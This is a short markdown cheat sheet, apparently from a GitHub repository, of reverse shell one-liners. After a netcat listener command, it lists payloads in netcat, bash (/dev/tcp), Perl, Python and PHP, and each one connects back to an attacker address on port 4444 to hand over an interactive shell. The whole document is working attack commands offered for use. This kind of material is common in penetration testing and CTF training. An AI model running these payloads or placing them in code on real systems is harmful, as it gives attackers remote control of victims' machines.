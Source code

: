
## Reverse Shells
---

Listen to all them with
```bash
# nc -lvp 4444
```
### Netcat
---
```bash
# nc -e /bin/sh 192.168.1.10 4444
# nc -e /bin/bash 192.168.1.10 4444
# nc -c bash 192.168.1.10 4444
```
If the victim `netcat` version does not support `-e`, try to use:
```bash
# rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.10 4444 >/tmp/f
```
### Bash
---
```bash
# 0<&196;exec 196<>/dev/tcp/192.168.1.10/4444; sh <&196 >&196 2>&196
```
```c
# bash -i >& /dev/tcp/192.168.1.10/4444 0>&1
```
### Perl
---
```perl
perl -e 'use Socket;$i="192.168.1.10";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
### Python
---
```python
# python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.45",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
### PHP
---
```php
# php -r '$sock=fsockopen("192.168.1.10",4444);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```
```php
# php -r '$sock=fsockopen("192.168.1.10",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
# php -r '$sock=fsockopen("192.168.1.10",4444);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
# php -r '$sock=fsockopen("192.168.1.10",4444);`/bin/sh -i <&3 >&3 2>&3`;'
# php -r '$sock=fsockopen("192.168.1.10",4444);system("/bin/sh -i <&3 >&3 2>&3");'
# php -r '$sock=fsockopen("192.168.1.10",4444);passthru("/bin/sh -i <&3 >&3 2>&3");'
# php -r '$sock=fsockopen("192.168.1.10",4444);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
```


